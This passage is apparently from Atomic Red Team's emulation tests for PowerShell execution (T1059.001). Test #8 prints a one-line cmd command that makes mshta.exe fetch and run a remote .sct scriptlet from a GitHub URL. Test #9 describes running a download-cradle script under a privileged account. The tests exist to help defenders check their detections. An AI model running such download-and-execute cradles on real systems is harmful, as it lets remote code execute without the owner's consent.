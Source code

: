 

<br/>
<br/>

## Atomic Test #8 - Powershell invoke mshta.exe download
Powershell invoke mshta to download payload. Upon execution, a new PowerShell window will be opened which will display "Download Cradle test success!".

Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows


**auto_generated_guid:** 8a2ad40b-12c7-4b25-8521-2737b0a415af





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/mshta.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\Windows\system32\cmd.exe /c "mshta.exe javascript:a=GetObject('script:#{url}').Exec();close()"
```






<br/>
<br/>

## Atomic Test #9 - Powershell Invoke-DownloadCradle
Provided by https://github.com/mgreen27/mgreen27.github.io
Invoke-DownloadCradle is used to generate Network and Endpoint artifacts.

**Supported Platforms:** Windows


**auto_generated_guid:** cc50fa2a-a4be-42af-a88f-e347ba0bf4d7





#### Run it with these steps! 
1. Open Powershell_ise as a Privileged Account
2. Invoke-DownloadCradle.ps1







<br/>
<br/>
